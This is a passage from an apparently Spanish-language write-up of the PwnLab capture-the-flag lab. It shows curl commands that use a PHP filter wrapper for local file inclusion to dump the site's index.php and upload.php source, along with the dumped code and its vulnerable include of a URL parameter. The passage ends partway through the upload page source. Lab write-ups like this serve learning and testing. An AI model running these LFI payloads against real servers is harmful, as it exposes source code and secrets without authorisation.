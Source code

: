 <center>
    <img src='./../assets/img/posts/20230702/Session_06.png'>
</center>

```
http://174.0.0.129/?page=upload
```

<center>
    <img src='./../assets/img/posts/20230702/Session_07.png'>
</center>

Con estos datos trataremos de probar LFI (inclusión de archivos locales) en combinación con PHP a los 3 sitios disponibles (index, upload, login):

```
┌──(al3j4ndr0㉿kali)-[~]
└─$ curl -s http://174.0.0.129?page=php://filter/convert.base64-encode/resource=index | grep -e '[^\ ]\{40,\}' | base64 -d
<?php
//Multilingual. Not implemented yet.
//setcookie("lang","en.lang.php");
if (isset($_COOKIE['lang']))
{
        include("lang/".$_COOKIE['lang']);
}
// Not implemented yet.
?>
<html>
<head>
<title>PwnLab Intranet Image Hosting</title>
</head>
<body>
<center>
<img src="images/pwnlab.png"><br />
[ <a href="/">Home</a> ] [ <a href="?page=login">Login</a> ] [ <a href="?page=upload">Upload</a> ]
<hr/><br/>
<?php
        if (isset($_GET['page']))
        {
                include($_GET['page'].".php");
        }
        else
        {
                echo "Use this server to upload and share image files inside the intranet";
        }
?>
</center>
</body>
</html>base64: entrada inválida
```
```
┌──(al3j4ndr0㉿kali)-[~]
└─$ curl -s http://174.0.0.129?page=php://filter/convert.base64-encode/resource=upload | grep -e '[^\ ]\{40,\}' | base64 -d
<?php
session_start();
if (!isset($_SESSION['user'])) { die('You must be log in.'); }
?>
<html>
        <body>
                <form action='' method='post' enctype='multipart/form-data'>
                        <input type='file' name='file' id='file' />
                        <input type='submit' name='submit' value='Upload'/>
                </form>
```